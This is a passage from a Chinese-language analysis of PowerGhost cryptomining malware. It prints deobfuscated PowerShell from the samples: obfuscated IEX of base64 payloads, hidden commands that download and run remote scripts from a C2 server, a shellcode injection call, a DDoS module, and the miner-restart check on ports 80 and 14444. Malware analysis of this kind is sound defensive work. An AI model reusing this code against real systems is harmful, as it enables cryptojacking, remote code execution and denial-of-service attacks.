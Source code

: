 ```powershell linenums="327"
if ($runingFlag){
    I`eX $script
    exit
}else{
    $defun=[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($funs))
    I`EX $defun
    RunDDOS "cohernece.exe" "4F-E2-DE-6F-BB-27-8E-56-C2-3E-90-43-2F-21-F6-C8"
    [byte[]]$sc=[System.Convert]::FromBase64String($sc)
    $ipsu = " "
    $i17 = " "
    if ((GeT-`W`M`IObjECt Win32_OperatingSystem).osarchitecture.contains('64'))
    {
        $cmdmon = "powershell -NoP -NonI -W Hidden `"`$scriptPath = ((new-object net.webclient).DownloadString('http://$nic/w/antivirus.ps1'));Invoke-Command -ScriptBlock ([scriptblock]::Create(`$scriptPath)) -ArgumentList 'a'`""
    }else{
        $cmdmon = "powershell -NoP -NonI -W Hidden `"`$scriptPath = ((new-object net.webclient).DownloadString('http://$nic/w/antitrojan.ps1'));Invoke-Command -ScriptBlock ([scriptblock]::Create(`$scriptPath)) -ArgumentList 'a'`""
    }
    Invoke-Command -ScriptBlock ([scriptblock]::Create($scriptPath)) -ArgumentList "a"
    $vbs = New-Object -ComObject WScript.Shell
    $vbs.run($cmdmon,0)
    Invoke-Brexit -scccccc $sc -ipsu $ipsu -i17 $i17 -nic $nic
    exit
}
```

## \$Script

这是 WMI 的持久化脚本，从 `antitrojan.ps1` 里的 `$Script` 变量复制出来。代码没有经过混淆，我把它放到了 [antitrojan_wmi_script.ps1](https://github.com/13m0n4de/powerghost-malware-samples/blob/main/deobfuscated/antitrojan_wmi_script.ps1)。

它的逻辑与 `vercheck.ps1` 和 `antitrojan.ps1` 有很多相似的部分：

- 启动 Windows 服务
- 选择 C2 服务器
- 版本检查与更新
- 从 WMI 属性获取漏洞利用函数并执行
- 清除竞争恶意软件的持久化
- 运行 DDos 模块

不同的有以下几个地方：

98-114 行 和 127-132 行，检查是否有 PowerShell 进程连接到远程端口 80 或 14444，如果没有则重新启动挖矿程序

```powershell linenums="98"
[array]$psids= get-process -name powershell |sort cpu -Descending| ForEach-Object {$_.id}
$tcpconn = netstat -anop tcp
$exist=$False
if ($psids -ne $null)
{
    foreach ($t in $tcpconn)
    {
        $line =$t.split(' ')| ?{$_}
        if ($line -eq $null)
        {continue}
        if (($psids -contains $line[-1]) -and $t.contains("ESTABLISHED") -and ($t.contains(":80") -or $t.contains(":14444")))
        {
            $exist=$true
            break
        }
    }
```